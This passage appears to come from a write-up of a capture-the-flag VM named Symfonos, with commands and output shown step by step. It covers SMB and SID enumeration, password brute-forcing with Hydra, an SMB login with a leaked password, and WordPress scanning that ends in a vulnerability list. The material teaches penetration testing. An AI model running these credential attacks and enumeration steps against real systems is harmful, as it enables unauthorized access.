S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
S-1-5-32-1000 *unknown*\*unknown* (8)
S-1-5-32-1001 *unknown*\*unknown* (8)
S-1-5-32-1002 *unknown*\*unknown* (8)
S-1-5-32-1003 *unknown*\*unknown* (8)
S-1-5-32-1004 *unknown*\*unknown* (8)
S-1-5-32-1005 *unknown*\*unknown* (8)
S-1-5-32-1006 *unknown*\*unknown* (8)
S-1-5-32-1007 *unknown*\*unknown* (8)
S-1-5-32-1008 *unknown*\*unknown* (8)
S-1-5-32-1009 *unknown*\*unknown* (8)
S-1-5-32-1010 *unknown*\*unknown* (8)
S-1-5-32-1011 *unknown*\*unknown* (8)
S-1-5-32-1012 *unknown*\*unknown* (8)
S-1-5-32-1013 *unknown*\*unknown* (8)
S-1-5-32-1014 *unknown*\*unknown* (8)
S-1-5-32-1015 *unknown*\*unknown* (8)
S-1-5-32-1016 *unknown*\*unknown* (8)
S-1-5-32-1017 *unknown*\*unknown* (8)
S-1-5-32-1018 *unknown*\*unknown* (8)
S-1-5-32-1019 *unknown*\*unknown* (8)
S-1-5-32-1020 *unknown*\*unknown* (8)
S-1-5-32-1021 *unknown*\*unknown* (8)
S-1-5-32-1022 *unknown*\*unknown* (8)
S-1-5-32-1023 *unknown*\*unknown* (8)
S-1-5-32-1024 *unknown*\*unknown* (8)
S-1-5-32-1025 *unknown*\*unknown* (8)
S-1-5-32-1026 *unknown*\*unknown* (8)
S-1-5-32-1027 *unknown*\*unknown* (8)
S-1-5-32-1028 *unknown*\*unknown* (8)
S-1-5-32-1029 *unknown*\*unknown* (8)
S-1-5-32-1030 *unknown*\*unknown* (8)
S-1-5-32-1031 *unknown*\*unknown* (8)
S-1-5-32-1032 *unknown*\*unknown* (8)
S-1-5-32-1033 *unknown*\*unknown* (8)
S-1-5-32-1034 *unknown*\*unknown* (8)
S-1-5-32-1035 *unknown*\*unknown* (8)
S-1-5-32-1036 *unknown*\*unknown* (8)
S-1-5-32-1037 *unknown*\*unknown* (8)
S-1-5-32-1038 *unknown*\*unknown* (8)
S-1-5-32-1039 *unknown*\*unknown* (8)
S-1-5-32-1040 *unknown*\*unknown* (8)
S-1-5-32-1041 *unknown*\*unknown* (8)
S-1-5-32-1042 *unknown*\*unknown* (8)
S-1-5-32-1043 *unknown*\*unknown* (8)
S-1-5-32-1044 *unknown*\*unknown* (8)
S-1-5-32-1045 *unknown*\*unknown* (8)
S-1-5-32-1046 *unknown*\*unknown* (8)
S-1-5-32-1047 *unknown*\*unknown* (8)
S-1-5-32-1048 *unknown*\*unknown* (8)
S-1-5-32-1049 *unknown*\*unknown* (8)
S-1-5-32-1050 *unknown*\*unknown* (8)
[+] Enumerating users using SID S-1-5-21-3173842667-3005291855-38846888 and logon username '', password ''
S-1-5-21-3173842667-3005291855-38846888-500 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-501 SYMFONOS\nobody (Local User)
S-1-5-21-3173842667-3005291855-38846888-502 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-503 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-504 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-505 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-506 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-507 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-508 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-509 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-510 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-511 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-512 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-513 SYMFONOS\None (Domain Group)
S-1-5-21-3173842667-3005291855-38846888-514 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-515 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-516 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-517 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-518 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-519 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-520 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-521 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-522 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-523 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-524 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-525 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-526 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-527 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-528 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-529 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-530 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-531 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-532 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-533 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-534 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-535 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-536 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-537 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-538 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-539 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-540 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-541 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-542 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-543 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-544 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-545 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-546 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-547 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-548 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-549 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-550 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1000 SYMFONOS\helios (Local User)
S-1-5-21-3173842667-3005291855-38846888-1001 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1002 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1003 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1004 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1005 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1006 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1007 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1008 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1009 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1010 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1011 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1012 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1013 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1014 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1015 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1016 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1017 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1018 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1019 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1020 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1021 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1022 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1023 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1024 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1025 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1026 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1027 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1028 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1029 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1030 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1031 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1032 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1033 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1034 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1035 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1036 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1037 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1038 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1039 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1040 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1041 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1042 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1043 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1044 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1045 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1046 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1047 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1048 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1049 *unknown*\*unknown* (8)
S-1-5-21-3173842667-3005291855-38846888-1050 *unknown*\*unknown* (8)

 ==============================================
|    Getting printer info for 192.168.56.88    |
 ==============================================
No printers returned.


enum4linux complete on Tue Jan  4 12:40:33 2022


```

#### Thigs of interest

- `//192.168.56.88/anonymous       Mapping: OK, Listing: OK`
- `S-1-5-21-3173842667-3005291855-38846888-1000 SYMFONOS\helios (Local User)`
- `S-1-5-21-3173842667-3005291855-38846888-513 SYMFONOS\None (Domain Group)`
- `S-1-5-21-3173842667-3005291855-38846888-501 SYMFONOS\nobody (Local User)`

### smbclient

```shell
smbclient //$RHOST/anonymous -U ''
Enter WORKGROUP\'s password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 29 06:44:49 2019
  ..                                  D        0  Sat Jun 29 06:42:15 2019
  attention.txt                       N      154  Sat Jun 29 06:44:49 2019

                19994224 blocks of size 1024. 16989016 blocks available
smb: \> get attention.txt
getting file \attention.txt of size 154 as attention.txt (18.8 KiloBytes/sec) (average 18.8 KiloBytes/sec)
smb: \> exit

```

```shell
cat attention.txt

Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'!

Next person I find using one of these passwords will be fired!

-Zeus


```

## Attacking services with possible passwords

```shell
cat users.txt
helios

```

```shell
cat passwords.txt
epidioko
qwerty
baseball

```

```shell
hydra -L users.txt -P passwords.txt $RHOST ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-04 12:47:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://192.168.56.88:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-04 12:47:36

```

```shell
hydra -L users.txt -P passwords.txt $RHOST smb
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-04 12:47:39
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 3 login tries (l:1/p:3), ~3 tries per task
[DATA] attacking smb://192.168.56.88:445/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-04 12:47:39

```

```shell
hydra -L users.txt -P passwords.txt $RHOST smtp
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-04 12:47:57
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking smtp://192.168.56.88:25/
[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 503 5.5.1 Error: authentication not enabled

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 503 5.5.1 Error: authentication not enabled

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 503 5.5.1 Error: authentication not enabled

1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-04 12:47:58

```

Well, there is nothing here.

```shell
smtp-user-enum -M VRFY -U users.txt -t $RHOST
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... users.txt
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............

######## Scan started at Tue Jan  4 12:49:48 2022 #########
192.168.56.88: helios exists
######## Scan completed at Tue Jan  4 12:49:48 2022 #########
1 results.

1 queries in 1 seconds (1.0 queries / sec)

```


```shell
nc -nvC $RHOST 25
Connection to 192.168.56.88 25 port [tcp/*] succeeded!
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
ehlo f0c1s
250-symfonos.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250 SMTPUTF8
vrfy helios
252 2.0.0 helios
quit
221 2.0.0 Bye


```

Basically, helios user exists. But what to do with this info?

## other scans

### nmblookup

```shell
nmblookup -ASMR $RHOST
Looking up status of 192.168.56.88
        SYMFONOS        <00> -         B <ACTIVE>
        SYMFONOS        <03> -         B <ACTIVE>
        SYMFONOS        <20> -         B <ACTIVE>
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>
        WORKGROUP       <00> - <GROUP> B <ACTIVE>
        WORKGROUP       <1d> -         B <ACTIVE>
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>

        MAC Address = 00-00-00-00-00-00


```

### nbtscan

```shell
nbtscan -v $RHOST
Doing NBT name scan for addresses from 192.168.56.88


NetBIOS Name Table for Host 192.168.56.88:

Incomplete packet, 227 bytes long.
Name             Service          Type
----------------------------------------
SYMFONOS         <00>             UNIQUE
SYMFONOS         <03>             UNIQUE
SYMFONOS         <20>             UNIQUE
__MSBROWSE__  <01>              GROUP
WORKGROUP        <00>              GROUP
WORKGROUP        <1d>             UNIQUE
WORKGROUP        <1e>              GROUP

Adapter address: 00:00:00:00:00:00
----------------------------------------

```

## Accessing /helios share

```shell
smbmap -H $RHOST -u "helios" -p "epidioko"
[!] Authentication error on 192.168.56.88

```

```shell
smbmap -H $RHOST -u "helios" -p "qwerty"
[+] IP: 192.168.56.88:445       Name: symfonos.local
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        helios                                                  READ ONLY       Helios personal share
        anonymous                                               READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.5.16-Debian)

```

```shell
smbclient //$RHOST/helios -U 'helios'
Enter WORKGROUP\helios's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 29 06:02:05 2019
  ..                                  D        0  Sat Jun 29 06:07:04 2019
  research.txt                        A      432  Sat Jun 29 06:02:05 2019
  todo.txt                            A       52  Sat Jun 29 06:02:05 2019

                19994224 blocks of size 1024. 16988980 blocks available
smb: \> exit

```

```shell
mkdir smb-helios

```

```shell
cd smb-helios

```

```shell
smbclient //$RHOST/helios -U 'helios'
Enter WORKGROUP\helios's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 29 06:02:05 2019
  ..                                  D        0  Sat Jun 29 06:07:04 2019
  research.txt                        A      432  Sat Jun 29 06:02:05 2019
  todo.txt                            A       52  Sat Jun 29 06:02:05 2019

                19994224 blocks of size 1024. 16988980 blocks available
smb: \> mget *
Get file research.txt? y
getting file \research.txt of size 432 as research.txt (52.7 KiloBytes/sec) (average 52.7 KiloBytes/sec)
Get file todo.txt? y
getting file \todo.txt of size 52 as todo.txt (6.3 KiloBytes/sec) (average 29.5 KiloBytes/sec)
smb: \> exit

```

```shell
cat research.txt
Helios (also Helius) was the god of the Sun in Greek mythology.
He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides)
while at night he did the return journey in leisurely fashion lounging in a golden cup.
The god was famously the subject of the Colossus of Rhodes,
the giant bronze statue considered one of the Seven Wonders of the Ancient World.

```

```shell
cat todo.txt

1. Binge watch Dexter
2. Dance
3. Work on /h3l105


```

Found a web directory: /h3l105, but weirdly hydra doesn't crack smb. Checkmate!


```shell
hydra -V -L users.txt -P passwords.txt $RHOST smb -t1
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-04 13:05:51
[DATA] max 1 task per 1 server, overall 1 task, 3 login tries (l:1/p:3), ~3 tries per task
[DATA] attacking smb://192.168.56.88:445/
[ATTEMPT] target 192.168.56.88 - login "helios" - pass "epidioko" - 1 of 3 [child 0] (0/0)
[ATTEMPT] target 192.168.56.88 - login "helios" - pass "qwerty" - 2 of 3 [child 0] (0/0)
[ATTEMPT] target 192.168.56.88 - login "helios" - pass "baseball" - 3 of 3 [child 0] (0/0)
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-04 13:05:52

```

## /h3l105

```shell
gobuster dir --url http://$RHOST/h3l105 -x js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 404,403 -q
/index.php            (Status: 301) [Size: 0] [--> http://192.168.56.88/h3l105/]
/wp-content           (Status: 301) [Size: 326] [--> http://192.168.56.88/h3l105/wp-content/]
/wp-login.php         (Status: 200) [Size: 3284]
/license.txt          (Status: 200) [Size: 19935]
/wp-includes          (Status: 301) [Size: 327] [--> http://192.168.56.88/h3l105/wp-includes/]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 324] [--> http://192.168.56.88/h3l105/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://symfonos.local/h3l105/wp-login.php?action=register]
^C
[!] Keyboard interrupt detected, terminating.

```


Ok, it is a wordpress blog.

```shell
cewl http://$RHOST/h3l105 --with-numbers -d 4 -e >> cewl.txt

```

```shell
cat cewl.txt
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
site
WordPress
helios
content
Hello
world
entry
Comments
org
Just
another
branding
area
for
Recent
RSS
Feed
Really
Simple
Syndication
Built
With
SiteEditor
http
www
siteeditor
Skip
container
masthead
header
Posted
byadminJune
2019June
2019Posted
inUncategorized1
Comment
footer
post
main
Search
Posts
Commenter
Archives
June
2019
Categories
Uncategorized
Meta
Log
Entries
widget
Proudly
powered
info
colophon
page
Thanks
stopping
Have
amazing
day
RSD
Powered
state
the
art
semantic
personal
publishing
platform

```

### wpscan

```shell
wpscan --url http://$RHOST/h3l105 --api-token="$WP_API_TOKEN" --enumerate ap,at,cb,dbe,u --passwords ./cewl.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.56.88/h3l105/ [192.168.56.88]
[+] Started: Tue Jan  4 13:09:13 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.25 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.88/h3l105/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.56.88/h3l105/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.56.88/h3l105/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.56.88/h3l105/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.2 identified (Insecure, released on 2019-06-18).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.88/h3l105/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.2.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.88/h3l105/, Match: 'WordPress 5.2.2'
 |
 | [!] 33 vulnerabilities identified:
 |
 | [!] Title: WordPress 5.2.2 - Cross-Site Scripting (XSS) in Stored Comments
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/1b880386-021d-43b1-9988-e196955c7a3e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16218
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |
 | [!] Title: WordPress 5.2.2 - Authenticated Cross-Site Scripting (XSS) in Post Previews
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/140eece9-0cf9-4e0f-81c9-c22955588548
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16223
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |
 | [!] Title: WordPress 5.2.2 - Potential Open Redirect
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/a5fa3ed3-aaf0-4b2f-bead-b1d2956e3403
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16220
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/c86ee39ff4c1a79b93c967eb88522f5c09614a28
 |
 | [!] Title: WordPress 5.0-5.2.2 - Authenticated Stored XSS in Shortcode Previews
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/8aca2325-14b8-4b9d-94bd-d20b2c3b0c77
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16219
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |      - https://fortiguard.com/zeroday/FG-VD-18-165
 |      - https://www.fortinet.com/blog/threat-research/wordpress-core-stored-xss-vulnerability.html
 |
 | [!] Title: WordPress 5.2.2 - Cross-Site Scripting (XSS) in Dashboard
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/6034fc8a-c418-467a-a7cf-893d1524447e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16221
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |
 | [!] Title: WordPress <= 5.2.2 - Cross-Site Scripting (XSS) in URL Sanitisation
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/4494a903-5a73-4cad-8c14-1e7b4da2be61
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16222
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/30ac67579559fe42251b5a9f887211bf61a8ed68
 |      - https://hackerone.com/reports/339483
 |
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Customizer
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/d39a7b84-28b9-4916-a2fc-6192ceb6fa56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17674
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
 |
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Style Tags
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/d005b1f8-749d-438a-8818-21fba45c6465
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17672
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - JSON Request Cache Poisoning
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/7804d8ed-457a-407e-83a7-345d3bbe07b2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17673
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/b224c251adfa16a5f84074a3c0886270c9df38de
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Server-Side Request Forgery (SSRF) in URL Validation
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/26a26de2-d598-405d-b00c-61f71cfacff6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17669
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17670
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/9db44754b9e4044690a6c32fd74b9d5fe26b07b2
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Admin Referrer Validation
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/715c00e3-5302-44ad-b914-131c162c3f71
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17675
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/b183fd1cca0b44a92f0264823dd9f22d2fd8b8d0
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
